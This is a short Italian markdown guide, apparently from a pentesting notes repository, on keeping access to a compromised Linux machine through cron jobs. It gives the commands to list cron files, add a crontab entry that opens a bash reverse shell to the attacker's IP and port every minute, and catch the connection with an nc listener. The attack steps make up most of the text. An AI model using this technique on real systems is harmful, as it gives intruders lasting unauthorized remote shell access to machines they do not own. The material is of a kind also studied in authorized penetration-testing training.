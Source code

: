 
# Persistenza su Linux tramite CronJobs
un cronjob é un modo per poter automatizzare delle task dentro un sistema linux ed é possibile impostare un tempo che varia da un minuto fino ad arrivare ad un mese di attesa prima che quel comando venga eseguito. <br> 
Possiamo impostare un cronjob in modo che possa effettuare una richiesta di connessione verso la nostra macchina attaccante ogni minuto, ogni ora o ogni giorno, <br> 
Cerchiamo dei file che contengono dei cronjobs per poterli modificare a nostro vantaggio:
```bash
cat /etc/cron*
```
dopo aver identificato un file, per esempio un file `/etc/crontab`, inseriamo un comando che effettuerà una connessione verso il nostro indirizzo ip ogni minuto 
```bash
echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'" > cron
cat cron                                                                                    # per confermare la creazione
crontab -i cron                                                                             # creiamo un cronjob usando il documento cron
crontab -l                                                                                  # mostra tutti i cronjobs presenti
```
adesso, quando vliamo connetterci al target, basta avviare un listener con `nc -nvlp 1234` per poter ricevere la connessione dopo un minuto di attesa. 
